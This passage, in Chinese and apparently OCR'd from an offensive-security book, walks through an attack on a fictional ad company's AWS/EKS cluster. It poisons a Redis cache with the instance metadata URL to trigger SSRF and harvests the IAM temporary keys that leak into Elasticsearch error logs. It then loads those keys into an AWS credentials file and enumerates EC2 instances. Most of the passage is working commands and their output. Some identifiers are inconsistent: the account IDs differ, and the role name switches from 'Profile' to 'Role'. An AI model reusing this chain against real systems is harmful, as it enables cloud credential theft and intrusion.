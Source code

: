 这个元数据端点应该返回一个 JSON 响应，包含附加到运行 ads-rtb pod 的节点上的 IAM 角色。我们知道角色存在，因为 EKS 要求它。附加分数：这个角色有一些有趣的权限。

大约需要 10 分钟才能触发一个被毒化的缓存条目，但我们最终得到了我们期待的详细错误信息。我们可以通过搜索 MXR Ads 的 AWS 账户 ID 886371554408 来定位日志索引中的错误：

```
shell> **curl "10.20.86.24:9200/log/_search?pretty&size=10&q=message: 886371554408"**

"level": "Critical"
"message": "...\"InstanceProfileArn\" : 
\" arn:aws:iam::886477354405:instance-profile/eks-workers-prod-common-NodeInstanceProfile-
BZUD6DGQKFGC\"...org.xml.sax.SAXParseException...Not valid XML file"
```

触发查询的 pod 正在运行具有 IAM 角色 `eks-workers-prod-common-NodeInstanceProfile-BZUD6DGQKFGC`。我们现在要做的就是再次毒化 Redis 缓存，但这次需要将角色名附加到 URL 上，以便获取其临时访问密钥：

```
shell> **redis -h 10.59.12.47 set vast_c88b4ab3d_19devear\**
**http://169.254.169.254/latest/meta-data/iam/security-credentials/eks-workers-prod-common-NodeInstanceRole-BZUD6DGQKFGC**
OK
```

几分钟后，我们终于得到了梦寐以求的奖品，有效的 AWS 访问密钥，具有 EKS 节点权限，并且可以在日志索引中看到：

```
shell> **curl "10.20.86.24:9200/log/_search?pretty&size=10&q=message: AccessKeyId"**

"level": "Critical"
"message": "...\"AccessKeyId\" : \"ASIA44ZRK6WS3R64ZPDI\", \"SecretAccessKey\" :
\"+EplZs...org.xml.sax.SAXParseException...Not valid XML file"
```

根据 AWS 文档，附加到 Kubernetes 节点的默认角色将具有基本的 EC2 权限，以发现其环境：`describe-instances`、`describe-security-groups`、`describe-volumes`、`describe-subnets` 等。让我们试一下这些新凭证，并列出 `eu-west-1` 区域（爱尔兰）的所有实例：

```
root@Point1:~/# **vi ~/.aws/credentials**
[node]
aws_access_key_id = ASIA44ZRK6WS3R64ZPDI
aws_secret_access_key = +EplZsWmW/5r/+B/+J5PrsmBZaNXyKKJ
aws_session_token = AgoJb3JpZ2luX2...

root@Point1:~/# **aws ec2 describe-instances \**
**--region=eu-west-1 \**
**--profile node**
`--snip--`
"InstanceId": "i-08072939411515dac",
"InstanceType": "c5.4xlarge",
"KeyName": "kube-node-key",
"LaunchTime": "2019-09-18T19:47:31.000Z",
"PrivateDnsName": "ip-192-168-12-33.eu-west-1.compute.internal",
"PrivateIpAddress": "192.168.12.33",
"PublicIpAddress": "34.245.211.33",
"StateTransitionReason": "",
"SubnetId": "subnet-00580e48",
"Tags": [
  {
  "Key": "k8s.io/cluster-autoscaler/prod-euw1",
  "Value": "true"
  }],
`--snip--`
```
